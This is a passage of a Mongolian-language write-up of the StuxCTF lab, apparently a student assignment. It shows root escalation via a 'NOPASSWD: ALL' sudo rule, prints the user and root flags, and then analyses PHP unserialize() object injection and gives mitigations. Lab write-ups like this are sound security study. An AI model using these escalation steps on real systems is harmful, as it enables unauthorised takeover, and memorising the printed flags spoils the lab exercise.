

`www-data` хэрэглэгчийн эрхээр ажиллаж байгаа тул цаашид эрх ахиулах арга хайсан. Эхлээд `sudo -l` командаар тухайн хэрэглэгчийн sudo эрхийг шалгасан.
```bash
sudo -l
```
Бодит үр дүн:
```text
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (ALL) NOPASSWD: ALL
```
`(ALL) NOPASSWD: ALL` гэсэн тохиргоо нь `www-data` хэрэглэгч ямар ч нууц үг оруулалгүйгээр бүх командыг root эрхээр ажиллуулах боломжтойг харуулсан. Үүнийг ашиглан шууд root эрх рүү шилжсэн.
```bash
sudo -i
whoami
```
Үр дүн:
```text
root
```

### User Flag унших



Root эрхтэй болсны дараа хэрэглэгчийн flag файлыг хайсан. `/home/grecia/` директороос `user.txt` файлыг олж уншсан.
```bash
cat /home/grecia/user.txt
```
Үр дүн:
```text
0b6044b7807dd100b9e30f1bd09db53f
```

### Root Flag унших


Root хэрэглэгчийн гэрийн директор руу шилжиж, `root.txt` файлыг уншсан.
```bash
cd /root
ls -la
cat root.txt
```
Үр дүн:
```text
0028454003b42601548df551b738976c
```

---

## 5. ИЛЭРСЭН ЭМЗЭГ БАЙДЛЫН ТЕХНИКИЙН ШИНЖИЛГЭЭ

### PHP Object Injection
**Эмзэг байдлын төрөл:** Code Execution, Object Injection.
**Шалтгаан:** Веб аппликейшн нь хэрэглэгчийн оруулсан файлын агуулгыг шалгалтгүйгээр `unserialize()` функцэд дамжуулсан. Энэ нь халдагчид өөрийн бүтээсэн объектыг системд ачаалж, `__destruct` функцийг ажиллуулах боломж олгосон.
**Үүсэх эрсдэл:** Алсын командаар ажиллуулах (RCE), файлын системд зөвшөөрөлгүй бичих, системийн мэдээллийг алдагдах.

### Sudo-ийн буруу тохиргоо
**Эмзэг байдлын төрөл:** Privilege Escalation (Эрх ахиулах).
**Шалтгаан:** `/etc/sudoers` файлд `www-data` хэрэглэгчид бүх командыг нууц үггүйгээр ажиллуулах эрх (`NOPASSWD: ALL`) олгосон.
**Үүсэх эрсдэл:** Веб серверийн эрхээр нэвтэрсэн халдагч шууд root эрх авч, бүх системийг удирдах боломжтой болно.

---

## 6. ХАМГААЛАХ АРГА ХЭМЖЭЭ

1. **`unserialize()` функцийг ашиглахаас зайлсхийх:** Хэрэглэгчийн оруулсан өгөгдлийг `unserialize()` функцэд дамжуулах нь маш өндөр эрсдэлтэй. Хэрэв зайлшгүй шаардлагатай бол `allowed_classes` параметрийг ашиглан зөвхөн зөвшөөрөгдсөн классуудыг ачааллах тохиргоо хийх шаардлагатай. JSON гэх мэт аюулгүй өгөгдөл солилцох формат руу шилжих нь зүйтэй.
2. **Sudo эрхийг зөв тохируулах:** `NOPASSWD: ALL` гэх мэт өргөн хүрээний эрх олгохоос зайлсхийх. Хэрэглэгчдэд зөвхөн тэдний ажил үүрэгт шаардлагатай тодорхой командуудыг л sudo эрхээр ажиллуулах боломж олгох (Least Privilege Principle).
3. **Файлын эрхийг чангатгах:** Веб серверийн ажиллаж буй хэрэглэгч (жишээ нь `www-data`) нь веб директорт зөвхөн шаардлагатай үед л бичих эрхтэй байх ёстой. Үүсгэсэн файлуудыг ажиллуулах эрхийг хаах.
4. **Лог хяналт:** Веб серверийн болон системийн логийг тогтмол хянаж, хэвийн бус хүсэлт, файл үүсэх болон `sudo` командын ажиллагааг илрүүлэх механизм нэвтрүүлэх.

---

## 7. АЖЛЫН ЭЦСИЙН ҮР ДҮН

Туршилтын явцад зорилтот StuxCTF машины сүлжээний үйлчилгээг судалж, Apache веб сервер болон SSH үйлчилгээ ажиллаж байгааг тогтоосон. Веб хуудасны эх кодонд нуугдсан Diffie-Hellman алгоритмын өгөгдлүүдийг Python ашиглан бодож, далд директорыг олсон.

Улмаар `/?file=` параметрийн LFI эмзэг байдлыг ашиглан эх кодыг задалж, `unserialize()` функцийн PHP Object Injection эмзэг байдлыг илрүүлсэн. Өөрсдийн бүтээсэн хортой PHP объектыг ашиглан зорилтот системд reverse shell холболт үүсгэж, `www-data` хэрэглэгчийн эрх авсан. Эцэст нь `sudo -l` командаар илэрсэн буруу тохиргоог ашиглан root эрх рүү шилжиж, `user.txt` болон `root.txt` файлуудыг амжилттай уншсан.

---

## 8. ДҮГНЭЛТ

Энэхүү бие даалтын ажлаар веб системийн аюулгүй байдал, криптограф, PHP програмын эмзэг байдал болон Linux системийн эрхийн тохиргоог практик туршилтын аргаар судаллаа. Ажлын явцад мэдээлэл цуглуулах, эх код задлах, Diffie-Hellman алгоритмыг бодох, PHP Object Injection payload бэлтгэх, reverse shell холболт үүсгэх, мөн `sudo` эрхийн алдааг ашиглан root эрх авах зэрэг олон шатлалт ур чадварыг эзэмшсэн.

Илэрсэн эмзэг байдлууд нь веб аппликейшнүүдэд хэрэглэгчийн оруулсан өгөгдлийг хэрхэн аюулгүй боловсруулах, системийн эрхийг хэрхэн зөв тохируулах талаар чухал сургамж өгсөн. Ялангуяа `unserialize()` функцийг хэрэглэгчийн өгөгдөл дээр ашиглах нь маш өндөр эрсдэлтэй болохыг тогтоож, ирээдүйд аюулгүй кодын практик хэрэгжүүлэх шаардлагатайг харуулсан. Мөн хамгийн бага эрхийн зарчмыг (Least Privilege) системийн тохиргоонд хэрхэн зөв хэрэгжүүлэх талаар мэдлэгтэй болсон.